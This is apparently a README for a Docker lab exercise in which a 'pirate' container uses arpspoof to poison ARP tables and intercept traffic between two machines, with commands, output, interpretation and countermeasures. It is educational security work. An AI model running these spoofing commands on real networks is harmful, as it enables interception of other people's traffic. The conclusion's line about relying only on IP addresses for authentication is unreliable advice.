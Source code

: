 # Spoofing


## Work Environment
The work environment is consisted of:
- three services
  - machine_1:
    - purpose: connect to machine_2, preview traceroute
    - tools: `traceroute`
    - ip: 10.10.10.2
  - machine_2:
    - ip: 10.10.10.3
  - pirate:
    - purpose: execute Arp Spoofing attack
    - tools: `arpspoof`
    - ip: 10.10.10.4
- log file
  - `./log/output.log`
- environment configuration in `.env` contains:
  - ip addresses configuration
  - commands to execute for machine_1 and pirate
  - paths for script for log file and script file
- `goal.bash`: script to execute machine_1 and pirate commands
- `docker-compose.yml` configuration
  

## Work Process
### arpspoof
arpspoof mounts an ARP spoofing attack against a host on the local network. This results in traffic from the attacked host to the default gateway (and all non-LAN hosts) and back going through the local computer and can thus be captured with tools like Wireshark. arpspoof will also forward this traffic, so Windows does NOT have to be configured as a router.[1]

### How to run
- execute docker-compose: `docker-compose up`
- in both `pirate` and `machine_1`, we execute `goal.bash` wich will execute the sequence of commands inside `.env` file
  - `docker exec -it machine_1 goal.bash`
  - `docker exec -it pirate goal.bash`


### Result
We'll have as a result:
- machine_1
``` bash
>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  machine_2.exercice_3_network_ip (10.10.10.3)  0.187 ms  0.060 ms  0.061 ms
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:03 [ether] on eth0
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_1 $IP_MACHINE_2)
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at
```
- machine_1
``` bash
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:04 [ether] on eth0
pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0

>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms
 2  machine_2.exercice_3_network_ip (10.10.10.3)  0.079 ms  0.064 ms  0.067 ms
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_2 $IP_MACHINE_1)
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
```

> full log will be stored in [./log/output.log](./log/output.log)


## Interpretation
- After `arpspoof` attack, a new line has been added to the arp table showen insde `machine_1` 
  - `pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0`
  - The mac address of the target `machine_1` has been changed from `02:42:0a:0a:0a:03` to `02:42:0a:0a:0a:04` which is the mac adress of the pirate.
- When executing traceroute to `machine_2`, a new line has been added
  -  `1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms`
  -  The requesets to `machine_2` will be recieved by `pirate`
- In the end, we send `arpspoof` attack to `machine_2`




## Conclusion
- We should consider only ip address as the unique method for authentication.
- As counter measurment, we have to use other anti-arp solutions like:
  - DHCP snopping
  - cisco..
  - Xarp,.. 



[1]: https://github.com/alandau/arpspoof